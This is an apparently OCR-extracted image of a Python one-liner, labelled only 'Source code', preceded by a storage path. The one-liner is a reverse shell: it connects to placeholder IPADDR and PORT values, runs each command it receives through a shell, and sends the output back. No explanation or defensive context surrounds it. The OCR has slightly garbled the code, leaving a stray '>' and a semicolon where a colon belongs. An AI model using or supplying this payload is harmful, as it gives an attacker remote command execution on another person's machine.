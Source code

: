 python -c " exec(\"import socket, subprocess;s = socket.socket() ; s.connect(('IPADDR>',<PORT>))\n while 1; proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE); s.send(proc.stdout.read()+proc.stderr.read())\")"
